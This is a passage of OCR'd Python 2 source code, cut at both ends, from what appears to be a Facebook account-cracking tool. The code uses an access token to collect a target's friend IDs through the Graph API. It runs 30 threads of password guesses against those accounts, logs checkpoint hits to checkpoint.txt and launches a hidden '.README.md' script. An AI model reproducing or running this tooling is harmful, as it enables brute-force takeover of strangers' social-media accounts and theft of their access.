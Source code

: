 																	cps.close()
																	cpb.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print (50*"-")
	print ("[✓] Process Has Been Completed ....")
	print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Back]")
	if xxx == "0":
		crack_menu()
	else:
		os.system("python2 .README.md")
		
def gbmail():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 bxi.py")
	else:
	    agbm()

def agbm():
	bch = ("2")
	if bch =="":
		print ("[!] Fill in correctly")
		agbm()
	elif bch =="2":
		os.system("clear")
		print (logo)
		idt = raw_input("[✓] Enter ID : ")
		os.system("clear")
		print (logo)
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")
			gbmail()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z["data"]:
			id.append(i["id"])
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ("[✓] Please wait, process is running ...")
	time.sleep(0.5)
	psb ("[!] To Stop Process Press CTRL Then Press z")
	time.sleep(0.5)
	print (50*"-")
	print
	